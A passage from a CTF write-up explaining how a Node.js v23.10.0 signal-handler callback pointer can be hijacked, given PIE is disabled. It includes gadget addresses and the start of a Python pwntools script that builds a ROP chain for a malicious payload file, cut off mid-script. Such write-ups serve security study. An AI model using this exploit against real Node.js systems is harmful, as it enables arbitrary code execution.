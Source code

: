 Here, the **`signal_cb`** member is a function pointer that holds the address of the callback function to be executed by the event handler when the `msg->signum` and `handle->signum` values match.

Therefore, if an attacker can make the two `signum` values equal and place a desired address into **`handle->signal_cb`**, the program's execution will branch to the attacker-specified code when that function is called.

If you check the security mitigations on the NodeJS binary, you can see that **PIE is disabled**.

![**Protection technique of node binary ⇒ You can check that PIE is turned off.**](/[KR]%202025%20CODEGATE%20CTF%20Web%20Challenges%20Writeup%2025595ea211f580cca84cefe7f436db5f/image%2033.png)

**Protection technique of node binary ⇒ You can check that PIE is turned off.**

Since **PIE is disabled**, the code section addresses are always static, allowing an attacker to easily build a **ROP chain**.

This challenge uses version **23.10.0** of Node.js, so I downloaded the corresponding node binary and found the necessary **ROP gadget** addresses.

![Find ROPgadget in node v23.10.0 ⇒ ex) pop rax ; ret](/[KR]%202025%20CODEGATE%20CTF%20Web%20Challenges%20Writeup%2025595ea211f580cca84cefe7f436db5f/image%2034.png)

Find ROPgadget in node v23.10.0 ⇒ ex) pop rax ; ret

For the payload, I referenced the PoC code shared by @toasterpwn and the reference below. (thanks to @toasterpwn!)

https://i0.rs/blog/engineering-a-rop-chain-against-node-js/

https://learnblockchain.cn/article/14186
The code below builds a ROP chain to create the malicious `exploit.bin` file.

```python
from pwn import *
import string
import requests
from urllib.parse import quote

def make_rop_chain():

    # All addresses must be valid UTF-8
    PIVOT_GADGET = 0x42b06b
    SIGNUM = 0x1289500  # must be equal to dword after PIVOT_GADGET
    RW_SECTION = 0x0000000006a9d000

    SYSCALL = 0x0000000000f339d8  # syscall
    POP_RAX = 0x0000000000ecb88a  # pop rax; ret
    POP_RDI = 0x00000000012273dd  # pop rdi; ret
    POP_RSI = 0x0000000000f66719  # pop rsi; ret
    POP_RDX = 0x000000000118de62  # pop rdx; ret
    MOV_GADGET = 0x0000000001478938  # mov qword ptr [rdi], rsi ; ret

    context.arch = "amd64"

    def gadget_write_at(addr, qword):
        if isinstance(qword, bytes):
            if len(qword) > 8:
                raise ValueError("qword cannot be larger than 8 bytes")
            qword = qword.ljust(8, b"\x00")
        yield POP_RDI
        yield addr
        yield POP_RSI
        yield qword
        yield MOV_GADGET

    def gadget_create_string(addr, s):
        s = s.encode() + b"\x00"
        for i in range(0, len(s), 8):
            yield from gadget_write_at(addr + i, s[i:i+8])
```
